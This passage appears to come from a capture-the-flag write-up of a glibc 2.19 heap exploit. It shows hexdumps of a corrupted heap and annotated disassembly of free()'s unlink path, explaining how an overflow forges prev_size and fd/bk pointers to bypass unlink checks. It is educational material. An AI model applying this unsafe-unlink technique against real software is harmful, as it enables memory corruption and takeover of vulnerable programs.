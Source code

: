 ```
00603230  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00
00603240  00 00 00 00 00 00 00 00  C1 0D 02 00 00 00 00 00
```

Then we overflow 3rd chunk (the 24 byte one) and we change size of 4th chunk from 0x101 to 
0x100. Also we set prev_size of that chunk to 0xa0, to point somewhere in the 2nd chunk.
The heap will become:
```
00603000  00 00 00 00 00 00 00 00  91 00 00 00 00 00 00 00
00603010  78 66 DD F7 FF 7F 00 00  78 66 DD F7 FF 7F 00 00
00603020  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00
........
00603080  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00
00603090  90 00 00 00 00 00 00 00  90 00 00 00 00 00 00 00
006030A0  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41
006030B0  B8 20 60 00 00 00 00 00  C0 20 60 00 00 00 00 00
006030C0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00
........
00603110  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00
00603120  00 00 00 00 00 00 00 00  21 00 00 00 00 00 00 00
00603130  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41
00603140  A0 00 00 00 00 00 00 00  00 01 00 00 00 00 00 00
00603150  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00
........
00603230  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00
00603240  00 00 00 00 00 00 00 00  C1 0D 02 00 00 00 00 00
```

Finally we set the fd and bk pointers (in the 2nd message) to point somewhere in Q, and then 
we trigger unlink() by deleting 4th chunk. Let's dig into free() internals, to see how unlink() works:
```assembly
libc_2.19.so:00007FFFF7AAC223 rbx = chunk's header
libc_2.19.so:00007FFFF7AAC223
libc_2.19.so:00007FFFF7AAC223 do_unlink_7FFFF7AAC223:
libc_2.19.so:00007FFFF7AAC223     test    byte ptr [rbx+8], 1         ; check if previous chunk is used (0x100 -> no)
libc_2.19.so:00007FFFF7AAC227     jnz     short SKIP_7FFFF7AAC26D     ; if so, don't unlink
libc_2.19.so:00007FFFF7AAC229     mov     rax, [rbx]                  ; rax = prev_size = 0xa0
libc_2.19.so:00007FFFF7AAC22C     sub     rbx, rax                    ; rbx = previous chunk = 0x6030a0
libc_2.19.so:00007FFFF7AAC22F     add     rbp, rax                    ; current chunk's size = 0x100 + 0xa0
libc_2.19.so:00007FFFF7AAC232     mov     rax, [rbx+10h]              ; rax = fd = 0x6020b8
libc_2.19.so:00007FFFF7AAC236     mov     rdx, [rbx+18h]              ; rdx = bk = 0x6020c0
libc_2.19.so:00007FFFF7AAC23A     cmp     rbx, [rax+18h]              ; rbx (= P = 0x6030A0) == *(0x6020b8 + 0x18) = *0x6020d0 ?
libc_2.19.so:00007FFFF7AAC23E     jnz     CORRUPTED_7FFFF7AACA84      ; if not freelist is corrupted
libc_2.19.so:00007FFFF7AAC244     cmp     rbx, [rdx+10h]              ; rbx (= P = 0x6030A0) == *(0x6020c0 + 0x10) = *0x6020d0 ?
libc_2.19.so:00007FFFF7AAC248     jnz     CORRUPTED_7FFFF7AACA84      ; if not freelist is corrupted
libc_2.19.so:00007FFFF7AAC24E     cmp     qword ptr [rbx+8], 3FFh     ; check if chunk it's in smallbins
libc_2.19.so:00007FFFF7AAC256     mov     [rax+18h], rdx              ; *0x6020d0 = 0x6020c0
libc_2.19.so:00007FFFF7AAC25A     mov     [rdx+10h], rax              ; *0x6020d0 = 0x6020b8
libc_2.19.so:00007FFFF7AAC25E     jbe     short SKIP_7FFFF7AAC26D
libc_2.19.so:00007FFFF7AAC260     mov     rdx, [rbx+20h]              ; ignore that stuff
libc_2.19.so:00007FFFF7AAC264     test    rdx, rdx
libc_2.19.so:00007FFFF7AAC267     jnz     loc_7FFFF7AACA58
libc_2.19.so:00007FFFF7AAC26D
libc_2.19.so:00007FFFF7AAC26D SKIP_7FFFF7AAC26D:
...
```